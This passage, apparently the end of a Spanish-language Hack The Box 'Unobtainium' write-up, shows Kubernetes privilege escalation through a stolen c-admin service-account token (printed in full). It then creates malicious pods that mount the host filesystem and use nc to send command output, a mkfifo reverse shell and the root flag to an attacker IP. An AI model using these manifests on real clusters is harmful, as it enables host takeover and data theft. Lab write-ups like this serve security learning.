Listos, tenemos varios secretos, si nos fijamos en la columna `TYPE` nos indica que todos son [kubernetes.io/service-account-token](https://kubernetes.io/docs/concepts/configuration/secret/#service-account-token-secrets), que buscando un poco por la web entendemos que su contenido será siempre un [**JSON Web Token**](https://jwt.io/introduction), o sea, con los que ya hemos tratado:

```bash
(/run/secrets/kubernetes.io/serviceaccount/token)
```

Entre toooda la lista vemos algunos con nombre llamativo, pero hay dos que destacan:

````bash
* root-ca-cert-publisher-token-cnl86
* c-admin-token-tfmp2
```

Despues de algunas pruebas (que ya veremos) nos quedamos con `c-admin-token-tfmp2`, veamos su contenido:

(Estoy en otro hostname, pero no importa, estamos en unos de los containers del **pod** `devnode` igualmente).

![338bash_devnodeSH_kubito_secret_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_devnodeSH_kubito_secret_admin.png)

Bien, una prueba que me llego a la cabeza fue intentar crear un **pod** con nuestro token actual (`/run/secrets/kubernetes.io/serviceaccount/token`), el token del secreto `root-ca-cert-publisher-token-cnl86` y el token del secreto `c-admin-token-tfmp2`, esta fue la razón por la que me quede con el token `c-admin-token-tfmp2`:

```bash
<devnode>$ TOKEN=eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
```

Tomando algunos ejemplos (como el de [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-kubernetes/enumeration-from-a-pod#escaping-from-the-pod) (cambiamos a `namespace: kube-system`)) generamos nuestro archivo `.yaml` y después para validar si podemos crearlo ejecutaríamos:

```bash
<devnode>$ ./kubito apply -f aaa.yaml -n kube-system       
Error from server (Forbidden)
...
```

Pero indicándole el token:

```bash
<devnode>$ ./kubito apply -f aaa.yaml -n kube-system --token $TOKEN        
pod/attacker-pod created
```

Listoneeeeees, al parecer tenemos el token del usuario `admin`, lo que quiere decir que tenemos interacción total contra **Kubernetes**, pues ahora solo nos queda probar y probar cosas para ver con cuál logramos explotar esta locura (:

...

Después de muchas pruebas en las que no estaba pensando, solo probaba y probaba (algo sin sentido :s), frene, mire la terminal y empece a pensar sobre lo que estaba intentando crear.

Hubo varios recursos que use para probar, se los dejo por si algo:

* [Kubernetes Pentest Methodology Part 1](https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1).
* [Escaping from the pod](https://book.hacktricks.xyz/pentesting/pentesting-kubernetes/enumeration-from-a-pod#escaping-from-the-pod).
* [Eight Ways to Create a Pod](https://www.cyberark.com/resources/threat-research-blog/eight-ways-to-create-a-pod).
* [Bad Pods: Kubernetes Pod Privilege Escalation](https://labs.bishopfox.com/tech-blog/bad-pods-kubernetes-pod-privilege-escalation).
* Y otros que perdi en el camino pensando que no me servian (pero estoy casi seguro que si).

Y finalmente este:

* [Attacking Kubernetes through Kubelet](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/).

> Me quedo con este ultimo porque es sencillo de leer y además fue con el que me pare a pensar sobre que estaba haciendo y con el que finalmente logre crear cositas maliciosas...

...

## Generamos <u>POD malicioso</u> [📌](#malicious-pod) {#malicious-pod}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_access2THEnodes.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ese archivo `.yaml` genera un **pod** que cuando se crea nos devuelve una **Reverse Shell** (además de montar la raíz del sistema (`/`) en una ruta llamada `/host`).

Sencillito, nos copiamos ese texto y creamos el archivo `.yaml` con nuestros comandos, para confirmar que el sistema **host** tiene `nc`, vamos a decirle que nos envíe el resultado del comando `id` a nuestro listener:

```yml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "id | nc 10.10.14.146 4435"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

Ahora le indicamos que nos cree el **pod** según el contenido del archivo `.yaml`:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN apply -f aaa.yaml 
pod/test created
```

Validamos si se creó:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN get pods
NAME                                  READY   STATUS             RESTARTS   AGE
...
test                                  0/1     ErrImagePull       0          6s
```

Pero hay errores, si volvemos a validar el sistema lo termina y después lo borra:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN get pods
NAME                                  READY   STATUS             RESTARTS   AGE
...
test                                  0/1     Terminating        0          8s
```

Por lo tanto no se ejecuta nuestro comando... Acá estuve un buen rato, **probando y probando**. (Muchas pruebas e.e)

Se me dio por leer los **pods** que ya existen y comparar algunos campos con los de nuestro archivo `.yaml` a ver si era que necesitábamos algo en especial, si los listamos vemos varios:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN get pods
NAME                                  READY   STATUS             RESTARTS   AGE
backup-pod                            0/1     CrashLoopBackOff   93         168d
coredns-74ff55c5b-sclll               1/1     Running            31         169d
etcd-unobtainium                      1/1     Running            0          117m
kube-apiserver-unobtainium            1/1     Running            0          117m
kube-controller-manager-unobtainium   1/1     Running            34         169d
kube-proxy-zqp45                      1/1     Running            31         169d
kube-scheduler-unobtainium            1/1     Running            31         169d
storage-provisioner                   1/1     Running            63         169d
```

Leyendo el contenido del primer **pod** (que esta como en algún tipo de error, pero no se borra (además su nombre el llamativo)) y comparando sus campos con los nuestros podemos copiar algún que otro contenido:

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/tmp/testea$ ./kubito -n kube-system --token $TOKEN describe pod backup-pod
Name:         backup-pod
Namespace:    kube-system
Priority:     0
Node:         unobtainium/10.10.10.235
Start Time:   Mon, 18 Jan 2021 16:34:56 +0000
Labels:       <none>
Annotations:  <none>
Status:       Running
IP:           172.17.0.9
IPs:
  IP:  172.17.0.9
Containers:
  backup-pod:
    Container ID:   docker://64a32a185ef0b218ddaaddb376725f3f709c7cc36b4f5872ebdf179819d189f4
    Image:          localhost:5000/dev-alpine
    Image ID:       docker-pullable://alpine@sha256:d9a7354e3845ea8466bb00b22224d9116b183e594527fb5b6c3d30bc01a20378
    Port:           <none>
    Host Port:      <none>                                                                      
    State:          Waiting         
      Reason:       CrashLoopBackOff
    Last State:     Terminated
      Reason:       Completed
      Exit Code:    0
      Started:      Mon, 05 Jul 2021 19:53:36 +0000
      Finished:     Mon, 05 Jul 2021 19:53:36 +0000
    Ready:          False
    Restart Count:  94
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from default-token-l85f2 (ro)
Conditions:
  Type              Status
  Initialized       True 
  Ready             False 
  ContainersReady   False 
  PodScheduled      True
Volumes:
  default-token-l85f2:
    Type:        Secret (a volume populated by a Secret)
    SecretName:  default-token-l85f2
    Optional:    false
QoS Class:       BestEffort
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:
  Type     Reason   Age                    From     Message
  ----     ------   ----                   ----     -------
  Warning  BackOff  4m4s (x532 over 118m)  kubelet  Back-off restarting failed container
```

Entre algunos cambios que hice, el que me dio resultado fue el campo `Image`, el cual vemos que es distinto al de nuestro archivo `.yaml`:

> Además vemos que ese **pod** en concreto se comunica con el sistema host `unobtainium/10.10.10.235`, eso también me llamo a atención...

**aaa.yaml**:

```yaml
image: busybox:1.29.2
```

**backup-pod**:

```yaml
image: localhost:5000/dev-alpine
```

Puede ser que nos esté generando error por eso, ya que la imagen `busybox:1.29.2` lo más probable es que no exista y por el contrario `localhost:5000/dev-alpine` si, pues copiemos esa imagen en nuestro **pod** e intentemos crearlo de nuevo:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "id | nc 10.10.14.146 4435"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN apply -f aaa.yaml 
```

Yyyy en nuestro listenerrrrrr:

![338bash_maliciousPOD_nc_id](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_maliciousPOD_nc_id.png)

Peeeeeeeerfecto, tenemos ejecución remota de comandos, pues entablémonos una reverse Shell:

```bash
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 4435 >/tmp/f"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

Y ejecutamos:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN apply -f aaa.yaml 
```

Y ahora en nuestro listener:

![338bash_maliciousPOD_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_maliciousPOD_revsh.png)

Pero la perdemos muy rápido (a la vez que se borra el **pod**), pero podemos aprovecharnos de la carpeta `/host` que crea el **pod** para leer la flag:

(Podemos obtener una Shell constante de varias formas, ya es cuestión de su imaginación)

```yaml
...
    args: ["-c", "cat /host/root/root.txt | nc 10.10.14.146 4435"]
...
```

Recibimos:

![338flags_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338flags_root.png)

Intente algunas formas de conseguir una **Shell** sin que se nos cierre pero no lo logre :( 

Veamos la flag de `user.txt`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338flags_user.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

Vaya locura de máquina, me encanto la explotación inicial, el juntar las dos vulnerabilidades para obtener un solo resultado, increíble, muy lindo :3 La parte de **Kubernetes** fue una locura, mucho movimiento lateral.

Bonita y entretenida máquina, aprendimos bastante y reforzamos cositas que sabíamos...

Bueno, no siendo más, muchas gracias por siempre aguantar :* Nos leeremos después yyyyy A SEGUIR ROMPIENDO TODOOOOOOOOOOOOO!!